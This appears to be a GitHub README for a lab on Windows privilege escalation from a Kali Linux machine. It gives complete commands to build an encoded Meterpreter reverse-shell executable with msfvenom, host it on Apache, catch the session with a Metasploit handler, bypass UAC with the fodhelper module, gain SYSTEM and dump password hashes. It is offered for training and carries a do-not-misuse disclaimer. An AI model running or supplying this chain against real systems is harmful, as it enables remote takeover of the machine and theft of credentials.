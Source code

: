 # Windows Privilege Escalation

This repository demonstrates a hands-on lab for privilege escalation on a vulnerable Windows machine using a Kali Linux attacker machine. The lab showcases how to exploit vulnerabilities to gain higher privileges and includes detailed steps for exploitation and escalation.

---

## Objectives

* Demonstrate how to escalate privileges on a victim machine by exploiting its vulnerabilities.
* Perform exploitation using Metasploit Framework.
* Understand how to bypass User Account Control (UAC) and gain elevated privileges.

---

## Prerequisites

* **Kali Linux** virtual machine with networking configured.
* **Windows 10** virtual machine with networking configured.
* Both VMs must be on the same network and have connectivity.

---

## Workflow

### 1. Setup Apache to Share Exploit File

Run the script to configure Apache and set up the shared folder for delivering the malicious payload.

```bash
./setup_apache.sh
```

This will:

* Install Apache if not already installed.
* Configure the Apache server to host a directory for sharing files.
* Copy the malicious payload `Exploit.exe` to the shared directory.

### 2. Create the Exploit File

Generate the malicious payload using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<KALI_IP> -f exe > Desktop/Exploit.exe
```

Replace `<KALI_IP>` with your Kali machine's IP address.

### 3. Start Apache Server

Ensure Apache is running:

```bash
sudo service apache2 start
```

The malicious payload will be accessible via `http://<KALI_IP>/share/Exploit.exe`.

### 4. Start Metasploit Handler

Prepare Kali to catch the connection when the victim runs the payload:

1. Open a terminal and start Metasploit:

   ```bash
   msfconsole
   ```

2. Run the following commands in Metasploit:

   ```
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <KALI_IP>
   exploit -j -z
   ```

This starts the listener and prepares to catch incoming connections from the victim machine.

### 5. Perform Exploitation

On the Windows 10 victim machine:

1. Open a browser and navigate to: `http://<KALI_IP>/share/`.
2. Download and run `Exploit.exe`. If prompted with a security warning, click **Run**.

### 6. Meterpreter Session

After the victim executes the payload, a Meterpreter session will open on Kali. Use the following commands:

* List active sessions:

  ```
  sessions
  ```

* Interact with the session:

  ```
  sessions -i <ID>
  ```

Replace `<ID>` with the session ID displayed in the `sessions` command output.

### 7. Privilege Escalation

To escalate privileges:

1. Attempt privilege escalation:

   ```
   getsystem
   ```

2. If this fails, bypass User Account Control (UAC):

   ```
   use exploit/windows/local/bypassuac_fodhelper
   set SESSION <ID>
   run
   ```

3. Once UAC is bypassed, re-run `getsystem`:

   ```
   getsystem
   ```

4. Verify elevated privileges:

   ```
   getuid
   ```

   You should see: `NT AUTHORITY\SYSTEM`.

---
### 8. Dump Password Hashes
 ```bash
run post/windows/gather/smart_hashdump
```
## Repository Structure

```plaintext
Windows-privilege-escalation/
├── scripts/
│   ├── setup_apache.sh      # Automates Apache setup and payload sharing.
│   └── metasploit_commands.sh  # Automates Metasploit setup and exploitation.
├── README.md                # Detailed documentation for the lab.

```

---

## Notes

* Ensure both VMs are on the same network and can communicate.
* For educational purposes only. Do not use these techniques on unauthorized systems.

---

